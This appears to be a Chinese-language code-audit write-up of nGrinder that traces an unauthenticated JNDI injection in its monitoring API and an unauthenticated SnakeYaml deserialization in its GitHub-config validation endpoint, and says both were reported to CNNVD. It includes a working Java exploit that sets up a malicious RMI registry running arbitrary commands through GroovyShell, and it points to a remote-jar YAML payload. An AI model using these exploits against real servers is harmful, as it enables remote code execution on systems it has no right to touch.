


# ngrinder 代码审计 - 先知社区

ngrinder 代码审计

- - -

## 授权分析

ngrinder 使用了 Spring Security 中 PreAuthorize 注解 进行权限校验，通过注解就可以了解未授权接口  
排除

-   控制器函数参数包含 User 实体类时也会进行权限校验
-   StatisticsApiController 和 UserSignUpApiController 是默认不开启的  
    可以在剩余的未授权接口中发现以下两个高危漏洞

## 未授权 jndi 注入

### 代码分析

org.ngrinder.agent.controller.MonitorManagerApiController#getRealTimeMonitorData

```plain
public SystemDataModel getRealTimeMonitorData(@RequestParam final String ip) throws InterruptedException, ExecutionException, TimeoutException {  
        int port = config.getMonitorPort();  
        Future<SystemInfo> systemInfoFuture = AopUtils.proxy(this).getAsyncSystemInfo(ip, port);  
        SystemInfo systemInfo = checkNotNull(systemInfoFuture.get(2, TimeUnit.SECONDS), "Monitoring data is not available.");  
        return new SystemDataModel(systemInfo, "UNKNOWN");  
    }
```

从服务配置中获取端口，release 中的 war 包默认为 13243，走到 org.ngrinder.agent.controller.MonitorManagerApiController#getAsyncSystemInfo

```plain
public Future<SystemInfo> getAsyncSystemInfo(String ip, int port) {  
        return new AsyncResult<>(monitorInfoStore.getSystemInfo(ip, port));  
    }
```

继续跟进 org.ngrinder.perftest.service.monitor.MonitorInfoStore#getSystemInfo

```plain
public SystemInfo getSystemInfo(String ip, int port) {  
        MonitorClientService monitorClient = monitorClientMap.get(ip);  
        if (monitorClient == null) {  
            monitorClient = new MonitorClientService(ip, port);  
            monitorClient.init();  
            IOUtils.closeQuietly(monitorClientMap.put(ip, monitorClient));  
        }  
        monitorClient.update();  
        monitorClient.setLastAccessedTime(System.currentTimeMillis());  
        return monitorClient.getSystemInfo();  
    }
```

在这里先判断 ip 是否存在 monitorClientMap 中，如果存在就更新，不存在时创建 MonitorClientService 对象，调用初始化函数，跟到 org.ngrinder.perftest.service.monitor.MonitorClientService#init

```plain
public void init() {  
        LOGGER.debug("Init MonitorClientService for {}:{}", ip, port);  
        try {  
            mBeanClient = new MBeanClient(ip, port);  
            mBeanClient.connect();  
            LOGGER.debug("Connection finished, isConnected :{}", mBeanClient.isConnected());  
        } catch (IOException e) {  
            LOGGER.info("Monitor Connection Error to {} by {}", ip + ":" + port, e.getMessage());  
        }
```

创建了 MBeanClient 对象，初始化时创建了 JMXServiceURL 对象

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127105029-d4fdf3fa-bcbe-1.png)

并拼接了 jmx 的 URL

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127105037-d969536c-bcbe-1.png)

再调用 connect 函数，跟进 org.ngrinder.monitor.share.domain.MBeanClient#connect

```plain
public void connect() {  
    try {  
        connectClient();  
    } catch (Exception e) {  
        LOGGER.error("Timeout while connecting to {}:{} monitor : {}", jmxUrl.getHost(), jmxUrl.getPort(), e.getMessage());  
    }  
}
```

在看 org.ngrinder.monitor.share.domain.MBeanClient#connectClient

```plain
private void connectClient() throws IOException, TimeoutException {  
        if (jmxUrl == null || ("localhost".equals(jmxUrl.getHost()) && jmxUrl.getPort() == 0)) {  
            mbeanServerConnection = ManagementFactory.getPlatformMBeanServer();  
        } else {  
            jmxConnector = connectWithTimeout(jmxUrl, timeout);  
            mbeanServerConnection = jmxConnector.getMBeanServerConnection();  
        }  
        this.connected = true;  
    }
```

这里只要 jmxUrl 不为 null 或者 host 为 localhost 和 port 为 0 不同时满足，就会走到 else 中，步进到 org.ngrinder.monitor.share.domain.MBeanClient#connectWithTimeout

```plain
private JMXConnector connectWithTimeout(final JMXServiceURL jmxUrl, int timeout) throws NGrinderRuntimeException, TimeoutException {  
        try {  
            ExecutorService executor = Executors.newSingleThreadExecutor();  
            Future<JMXConnector> future = executor.submit(() -> JMXConnectorFactory.connect(jmxUrl));  
​  
            return future.get(timeout, TimeUnit.MILLISECONDS);  
        } catch (TimeoutException e) {  
            throw e;  
        } catch (Exception e) {  
            throw processException(e);  
        }  
​  
    }
```

这里开了新线程去进行 JMX 的连接，断点在 javax.management.remote.JMXConnectorFactory#connect(javax.management.remote.JMXServiceURL)，一路到 javax.management.remote.rmi.RMIConnector#findRMIServer

```plain
private RMIServer findRMIServer(JMXServiceURL directoryURL,  
            Map<String, Object> environment)  
            throws NamingException, IOException {  
​  
        String path = directoryURL.getURLPath();  
        int end = path.indexOf(';');  
        if (end < 0) end = path.length();  
        if (path.startsWith("/jndi/"))  
            return findRMIServerJNDI(path.substring(6,end), environment);  
        else if (path.startsWith("/stub/"))  
            return findRMIServerJRMP(path.substring(6,end), environment);  
        else {  
            final String msg = "URL path must begin with /jndi/ or /stub/ " +  
                    "or /ior/: " + path;  
            throw new MalformedURLException(msg);  
        }  
    }
```

在这里由于之前拼接的 jmx 是/jndi/开头成功进入到了 javax.management.remote.rmi.RMIConnector#findRMIServerJNDI

```plain
private RMIServer findRMIServerJNDI(String jndiURL, Map<String, ?> env)  
            throws NamingException {  
​  
        InitialContext ctx = new InitialContext(EnvHelp.mapToHashtable(env));  
​  
        Object objref = ctx.lookup(jndiURL);  
        ctx.close();  
​  
        return narrowJRMPServer(objref);  
    }
```

在这里进行了 lookup，jndiURL 中 ip 可控，存在 jndi 注入

### 高版本利用

且 ngrinder 环境存在存在 tomcat 包+groovy 包，可以构造恶意 rmi 绕 jdk 高版本 jdk RMI + JNDI Reference 攻击的限制  
如下：

```plain
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Test {
    public static void main(String args[]) throws Exception{

        int port = Integer.parseInt(args[0]);
        String cmd = args[1];

        Registry registry = LocateRegistry.createRegistry(port);
        System.out.println("Creating evil RMI registry on port "+port);
        System.out.println("The command you want to execute is "+cmd);
        ResourceRef ref = new ResourceRef("groovy.lang.GroovyShell", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("forceString", "x=evaluate"));
        String script = String.format("'%s'.execute()", cmd);
        ref.add(new StringRefAddr("x",script));

        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("rmi://0.0.0.0:13243/jmxrmi", referenceWrapper);

    }
}
```

## 未授权 SnakeYaml 反序列化

### 代码分析

检查到org.ngrinder.script.controller.FileEntryApiController#validateGithubConfig不存在权限校验

```plain
@PostMapping("/github/validate")  
    public void validateGithubConfig(@RequestBody FileEntry fileEntry) {  
        gitHubFileEntryService.validate(fileEntry);  
    }
```

跟进到 org.ngrinder.script.service.GitHubFileEntryService#validate

```plain
public boolean validate(FileEntry gitConfigYaml) {  
        for (GitHubConfig config : getAllGithubConfig(gitConfigYaml)) {  
            ...  
    }
```

在开始就调用了org.ngrinder.script.service.GitHubFileEntryService#getAllGithubConfig函数

```plain
private Set<GitHubConfig> getAllGithubConfig(FileEntry gitConfigYaml) {  
        Set<GitHubConfig> gitHubConfig = new HashSet<>();  
        // Yaml is not thread safe. so create it every time.  
        Yaml yaml = new Yaml();  
        Iterable<Map<String, Object>> gitConfigs = cast(yaml.loadAll(gitConfigYaml.getContent()));  
        for (Map<String, Object> configMap : gitConfigs) {  
            if (configMap == null) {  
                continue;  
            }  
            configMap.put("revision", gitConfigYaml.getRevision());  
            GitHubConfig config = objectMapper.convertValue(configMap, GitHubConfig.class);  
​  
            if (gitHubConfig.contains(config)) {  
                throw new InvalidGitHubConfigurationException("GitHub configuration '"  
                    + config.getName() + "' is duplicated.\nPlease check your .gitconfig.yml");  
            }  
​  
            gitHubConfig.add(config);  
        }  
        return gitHubConfig;  
    }
```

可以看到开始初始化了 Yaml 对象，然后调用了 gitConfigYaml（可控的）的 getContent 方法获取值，Content 同样可控

然后调用 org.yaml.snakeyaml.Yaml#loadAll(java.io.Reader) 将可控值加载后返回一个迭代器

```plain
public Iterable<Object> loadAll(Reader yaml) {  
        Composer composer = new Composer(new ParserImpl(new StreamReader(yaml)), resolver);  
        constructor.setComposer(composer);  
        Iterator<Object> result = new Iterator<Object>() {  
            @Override  
            public boolean hasNext() {  
                return constructor.checkData();  
            }  
​  
            @Override  
            public Object next() {  
                return constructor.getData();  
            }  
​  
            @Override  
            public void remove() {  
                throw new UnsupportedOperationException();  
            }  
        };  
        return new YamlIterable(result);  
    }
```

在 for 循环时进入迭代器的 next 函数：org.yaml.snakeyaml.constructor.BaseConstructor#getData

```plain
public Object getData() {  
        // Construct and return the next document.  
        composer.checkNode();  
        Node node = composer.getNode();  
        if (rootTag != null) {  
            node.setTag(rootTag);  
        }  
        return constructDocument(node);  
    }
```

getData函数和SnakeYaml.load调用栈中org.yaml.snakeyaml.constructor.BaseConstructor#getSingleData类似（将字符串按照yaml语法转为Node对象）

然后判断当前 Node 是否为空且是否 Tag 为空，若不是则判断 yaml 格式数据的类型是否为 Object 类型、是否有根标签，这里都判断不通过，最后调用 constructDocument()

函数最后会走到 org.yaml.snakeyaml.constructor.Constructor.ConstructSequence 成功对`javax.script.ScriptEngineManager`进行实例化然后利用 SPI 机制`ServiceLoader`去动态加载恶意类，最后在实例化时触发代码执行

### 漏洞利用

可以利用：[https://github.com/artsploit/yaml-payload/](https://github.com/artsploit/yaml-payload/)  
通过 ScriptEngineManager 使用 URL 去加载恶意 jar 包

注：以上漏洞都已提交 CNNVD 且通过
